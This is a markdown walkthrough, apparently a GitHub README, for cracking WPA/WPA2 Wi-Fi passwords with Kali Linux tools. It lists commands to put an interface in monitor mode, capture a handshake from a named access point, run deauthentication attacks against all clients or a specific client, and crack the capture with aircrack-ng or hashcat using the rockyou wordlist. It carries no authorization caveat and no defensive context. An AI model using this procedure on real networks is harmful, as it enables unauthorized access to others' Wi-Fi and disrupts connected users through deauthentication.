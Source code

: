 # Crack WPA/WPA2 WiFi Passwords using Kali Linux & Aircrack-ng & Hashcat

> All commands are executed as root.

---

## PHASE ONE: Gather information

---

### 1. See interfaces

```bash
ip addr
```

or

```bash
ifconfig
```

### 2. Check and kill processes

```bash
airmon-ng check kill
```

### 3. Start monitor mode

```bash
airmon-ng start wlan0
```

### 4. Verify that monitor mode is used

```bash
airmon-ng
```

> You could also use `ifconfig` to check if the interface is in monitor mode.

### 5. Get the AP's MAC address and channel

```bash
airodump-ng wlan0mon
```

*Target:*

```bash
ESSID:    TPGuest-77E0
BSSID:    82:8F:1D:FB:77:E0
Channel:  1  
```

---

## PHASE TWO: Capture Handshake

---

## 1. Collecting

```bash
airodump-ng -w TPGuest-77E0 -c 1 --bssid 82:8F:1D:FB:77:E0 wlan0mon
```

## 2. Deauth attack

```bash
[To all stations]
aireplay-ng --deauth 10 -a 82:8F:1D:FB:77:E0 wlan0mon

[To a specific station]
aireplay-ng --deauth 10 -a 82:8F:1D:FB:77:E0 -c 18:01:F1:B2:B3:02 wlan0mon
```

## 3. Check

```bash
aircrack-ng TPGuest-77E0-01.cap
```

or

```bash
wireshark TPGuest-77E0-01.cap
```

> Press `ctrl+F` and input `eapol` , then press `enter`  .
> Check if there are 4 EAPOL packs （Message 1 ~ Message 4). If not, recapture.

## 4. Stop monitor mode

```bash
airmon-ng stop wlan0mon
```

---

# PHASE TREE: Crack Password

---

## 1. Using Aircrack-ng

```bash
aircrack-ng TPGuest-77E0-01.cap -w /usr/share/wordlists/rockyou.txt
```

## 2. Using Hashcat (GPU)

* Convert `*.cap` to `*.hc22000`
  
  ```bash
  hcxpcapngtool ./TPGuest-77E0-01.cap -o TPGuest-77E0-01.hc22000
  ```
- Start hashcat
  
  ```bash
  hashcat -m 22000 TPGuest-77E0-01.hc22000 /usr/share/wordlists/rockyou.txt
  ```

- Show cracked passwords
  
  ```bash
  hashcat -m 22000 --show TPGuest-77E0-01.hc22000
  ```
